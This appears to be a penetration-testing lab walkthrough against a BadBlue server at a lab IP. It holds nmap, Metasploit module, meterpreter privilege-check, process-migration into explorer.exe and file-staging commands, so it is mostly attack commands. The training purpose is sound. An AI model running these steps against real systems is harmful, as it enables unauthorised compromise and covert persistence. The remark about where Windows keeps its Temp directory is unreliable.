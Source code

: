 Target IP Address : 10.0.23.172

```
nmap -sV -p 80 10.0.23.172
```

```
msfconsole -q
search BadBlue
use 1
show options
set RHOSTS 10.0.23.172
show advanced
```

The objective here is to try and identify whether we can find an option that sort of is pertinent to whether or not this module generates specific artifacts and whether it automatically deletes them.

```
show info
exploit
```

```
meterpreter > sysinfo
```

Let's check out our user privileges. Get user id.

```
meterpreter > getuid
```

We currently have access to the target system as the administrator user.

```
meterpreter > pgrep explorer
4032
```

```
meterpreter > migrate 4032
```

```
meterpreter > sysinfo
```

Let's take a look at the first recommendation that is pertinent to where you transfer or store files on the target system. It's always recommended to store them within the Temp directory. 

```
meterpreter > cd C:\\
meterpreter > pwd
meterpreter > ls
meterpreter > mkdir Temp
meterpreter > cd Temp
meterpreter > pwd
```

The Temp directory is typically stored in the root of the C drive on Windows.
